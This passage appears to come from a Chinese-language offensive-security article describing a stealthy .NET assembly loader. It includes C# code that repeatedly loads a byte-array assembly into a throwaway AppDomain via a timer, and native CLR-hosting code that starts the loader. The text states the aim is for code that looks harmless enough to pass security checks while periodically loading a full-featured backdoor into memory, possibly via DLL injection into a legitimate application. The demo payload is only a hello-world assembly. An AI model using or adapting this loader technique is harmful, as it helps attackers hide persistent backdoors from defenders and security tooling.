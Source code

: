 ```

`{` 
    AppDomain.CurrentDomain.AssemblyResolve += new ResolveEventHandler(CurrentDomain_AssemblyResolve); 
    Console.WriteLine("Hello from timer!");  

    String appDomainName = "TemporaryApplicationDomain"; 
    AppDomain applicationDomain = System.AppDomain.CreateDomain(appDomainName); 
    var assmblyLoaderType = typeof(AssemblyLoaderProxy); 
    var assemblyLoader = (IAssemblyLoader)applicationDomain.CreateInstanceFromAndUnwrap(assmblyLoaderType.Assembly.Location, assmblyLoaderType.FullName); 
    assemblyLoader.Load((byte[])state); 
    Console.WriteLine("Dynamic assembly has been loaded in new AppDomain " + appDomainName); 

    AppDomain.Unload(applicationDomain); 
    Console.WriteLine("New AppDomain has been unloaded");  

    Timer t = new Timer(new TimerCallback(TimerProcAssemblyLoad), state, 1000, 0); 
`}`
```

以上代码量较少，包含一些调试信息，看上去恶意程度不是特别高，可能会通过安全检查。如果这段代码只是代码量庞大且无害的assembly中的一部分，那么更容易能够通过安全检查。

为了定义回调函数、加载我们的恶意assembly（即`DemoAssembly`），我们可以执行如下操作：

1、在新的`AppDomain`中通过`byte[]`数组加载`DemoAssembly`；

2、实例化`DemoClass`对象；

3、执行`Helloworld()`方法；

4、卸载`AppDomain`，清理内存中的`DemoAssembly`；

5、重新调度计时器，一直重复上述过程。



## 五、执行Assembly Loader

为了满足第三点要求，我们可以利用原生代码中的COM技术来加载我们的Loader assembly，然后调用`StartTimer()`方法，设置.NET计时器，然后通过计时器周期性加载我们的“恶意”`DemoAssembly`。关键代码片段如下所示：

```
// execute managed assembly 
DWORD pReturnValue; 
hr = pClrRuntimeHost-&gt;ExecuteInDefaultAppDomain( 
L"AssemblyLoader.dll", 
L"AssemblyLoader", 
L"StartTimer", 
lpcwstr_base64_contents, 
&amp;pReturnValue);
```

这样我们就有各种办法能够触发loader。我们可以运行原生应用，然后执行这段代码，或者我们可以将其以原生DLL的方式注入合法的应用中，然后立即卸载DLL。最终结果就是我们实现了一个.NET loader assembly，加载后看上去非常无害，但可以通过.NET计时器，在未来定期将完整功能版的.NET后门载入内存中。
